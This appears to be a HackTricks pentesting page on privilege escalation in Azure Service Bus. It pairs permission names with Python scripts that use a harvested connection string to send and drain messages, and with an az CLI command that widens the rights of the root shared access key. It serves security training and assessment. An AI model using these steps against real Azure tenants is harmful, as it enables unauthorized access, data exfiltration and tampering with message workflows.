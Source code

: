 # Az - Service Bus Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Service Bus

For more information check:

{{#ref}}
../az-services/az-servicebus-enum.md
{{#endref}}

### Send Messages. Action: `Microsoft.ServiceBus/namespaces/authorizationRules/listkeys/action` OR `Microsoft.ServiceBus/namespaces/authorizationRules/regenerateKeys/action`

You can retrieve the `PrimaryConnectionString`, which acts as a credential for the Service Bus namespace. With this connection string, you can fully authenticate as the Service Bus namespace, enabling you to send messages to any queue or topic and potentially interact with the system in ways that could disrupt operations, impersonate valid users, or inject malicious data into the messaging workflow.

```python
#You need to install the following libraries
#pip install azure-servicebus
#pip install aiohttp
#pip install azure-identity

import asyncio
from azure.servicebus.aio import ServiceBusClient
from azure.servicebus import ServiceBusMessage

# Constants
NAMESPACE_CONNECTION_STR = "<PrimaryConnectionString>"
TOPIC_NAME = "<TOPIC_NAME>"

# Function to send a single message to a Service Bus topic
async def send_individual_message(publisher):
    # Prepare a single message with updated content
    single_message = ServiceBusMessage("Hacktricks-Training: Single Item")
    # Send the message to the topic
    await publisher.send_messages(single_message)
    print("Sent a single message containing 'Hacktricks-Training'")

# Function to send multiple messages to a Service Bus topic
async def send_multiple_messages(publisher):
    # Generate a collection of messages with updated content
    message_list = [ServiceBusMessage(f"Hacktricks-Training: Item {i+1} in list") for i in range(5)]
    # Send the entire collection of messages to the topic
    await publisher.send_messages(message_list)
    print("Sent a list of 5 messages containing 'Hacktricks-Training'")

# Function to send a grouped batch of messages to a Service Bus topic
async def send_grouped_messages(publisher):
    # Send a grouped batch of messages with updated content
    async with publisher:
        grouped_message_batch = await publisher.create_message_batch()
        for i in range(10):
            try:
                # Append a message to the batch with updated content
                grouped_message_batch.add_message(ServiceBusMessage(f"Hacktricks-Training: Item {i+1}"))
            except ValueError:
                # If batch reaches its size limit, handle by creating another batch
                break
        # Dispatch the batch of messages to the topic
        await publisher.send_messages(grouped_message_batch)
    print("Sent a batch of 10 messages containing 'Hacktricks-Training'")

# Main function to execute all tasks
async def execute():
    # Instantiate the Service Bus client with the connection string
    async with ServiceBusClient.from_connection_string(
        conn_str=NAMESPACE_CONNECTION_STR,
        logging_enable=True) as sb_client:
        # Create a topic sender for dispatching messages to the topic
        publisher = sb_client.get_topic_sender(topic_name=TOPIC_NAME)
        async with publisher:
            # Send a single message
            await send_individual_message(publisher)
            # Send multiple messages
            await send_multiple_messages(publisher)
            # Send a batch of messages
            await send_grouped_messages(publisher)

# Run the asynchronous execution
asyncio.run(execute())
print("Messages Sent")
print("----------------------------")

```

### Recieve Messages. Action: `Microsoft.ServiceBus/namespaces/authorizationRules/listkeys/action` OR `Microsoft.ServiceBus/namespaces/authorizationRules/regenerateKeys/action`

You can retrieve the PrimaryConnectionString, which serves as a credential for the Service Bus namespace. Using this connection string, you can receive messages from any queue or subscription within the namespace, allowing access to potentially sensitive or critical data, enabling data exfiltration, or interfering with message processing and application workflows.

```python
#You need to install the following libraries
#pip install azure-servicebus
#pip install aiohttp
#pip install azure-identity

import asyncio
from azure.servicebus.aio import ServiceBusClient

NAMESPACE_CONNECTION_STR = "<PrimaryConnectionString>"
TOPIC_NAME = "<TOPIC_NAME>"
SUBSCRIPTION_NAME = "<TOPIC_SUBSCRIPTION_NAME>" #Topic Subscription

# Function to receive and process messages from a Service Bus subscription
async def receive_and_process_messages():
    # Create a Service Bus client using the connection string
    async with ServiceBusClient.from_connection_string(
        conn_str=NAMESPACE_CONNECTION_STR,
        logging_enable=True) as servicebus_client:

        # Get the Subscription Receiver object for the specified topic and subscription
        receiver = servicebus_client.get_subscription_receiver(
            topic_name=TOPIC_NAME,
            subscription_name=SUBSCRIPTION_NAME,
            max_wait_time=5
        )

        async with receiver:
            # Receive messages with a defined maximum wait time and count
            received_msgs = await receiver.receive_messages(
                max_wait_time=5,
                max_message_count=20
            )
            for msg in received_msgs:
                print("Received: " + str(msg))
                # Complete the message to remove it from the subscription
                await receiver.complete_message(msg)

# Run the asynchronous message processing function
asyncio.run(receive_and_process_messages())
print("Message Receiving Completed")
print("----------------------------")
```

### `Microsoft.ServiceBus/namespaces/authorizationRules/write` & `Microsoft.ServiceBus/namespaces/authorizationRules/write`

If you have these permissions, you can escalate privileges by reading or creating shared access keys. These keys allow full control over the Service Bus namespace, including managing queues, topics, and sending/receiving messages, potentially bypassing role-based access controls (RBAC).

```bash
az servicebus namespace authorization-rule update \
    --resource-group <MyResourceGroup> \
    --namespace-name <MyNamespace> \
    --name RootManageSharedAccessKey \
    --rights Manage Listen Send
```

## References

- https://learn.microsoft.com/en-us/azure/storage/queues/storage-powershell-how-to-use-queues
- https://learn.microsoft.com/en-us/rest/api/storageservices/queue-service-rest-api
- https://learn.microsoft.com/en-us/azure/storage/queues/queues-auth-abac-attributes
- https://learn.microsoft.com/en-us/azure/service-bus-messaging/service-bus-python-how-to-use-topics-subscriptions?tabs=passwordless
- https://learn.microsoft.com/en-us/azure/role-based-access-control/permissions/integration#microsoftservicebus

{{#include ../../../banners/hacktricks-training.md}}
